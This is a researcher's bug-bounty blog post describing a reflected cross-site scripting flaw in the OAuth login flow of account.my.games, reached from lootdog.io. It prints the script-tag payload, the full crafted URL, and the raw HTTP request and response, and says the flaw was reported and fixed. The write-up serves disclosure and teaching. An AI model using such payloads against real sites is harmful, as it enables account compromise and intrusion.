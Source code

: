 ```yaml
---
layout: post
title: "Discovery of Reflected Cross-Site Scripting (XSS) Vulnerability in a Public Program"
date: 2021-02-08 12:00
categories: blog
---
```


Reflected Cross-site Scripting.

## Target

The target of this analysis is https://lootdog.io/, a website hosted on HackerOne's platform with a large scope. During the reconnaissance phase, an unintended behavior was identified in the Oauth request, leading to further investigation.

## Technical Analysis

The login request from https://lootdog.io/ was intercepted and analyzed using a repeater tool to observe the Oauth workflow. It was discovered that the website utilizes https://account.my.games as an Oauth service. Upon clicking the login button, users are redirected to https://account.my.games, where they can log in if they possess a valid account. To assess the security of the Oauth implementation, a search was conducted for potential vulnerabilities such as Reflected XSS or Open Redirect issues that could be exploited to obtain the Oauth token and compromise user accounts.

An additional parameter was added to the end of the request's keyed value as follows:

`&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>`

The resulting URL was crafted as follows:

```
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
```

Subsequently, the request containing the payload was sent and the response was observed.

## Request

```http
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1 
Host: account.my.games 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://lootdog.io/ 
Connection: close
```

## Response

```http
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK 
Content-Type: text/html; charset=utf-8 
X-Frame-Options: SAMEORIGIN 
Content-Length: 3982 
Vary: Origin
```

However, no access token was found to be reflected in the response at that time. Nonetheless, the issue was reported to the program, as it had the potential to pose other security threats.

![img](/assets/images/blogs/XSS_lootdog/1.webp)

The payload can be seen successfully reflected in the HTTP response.

![img](/assets/images/blogs/XSS_lootdog/2.webp)

This marked the discovery of my first vulnerability, which was promptly reported to HackerOne. After the HackerOne analyst verified and triaged the vulnerability through discussions, the issue was ultimately resolved, and I was rewarded with a Hall of Fame (HoF) distinction.

Thank you for reading.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).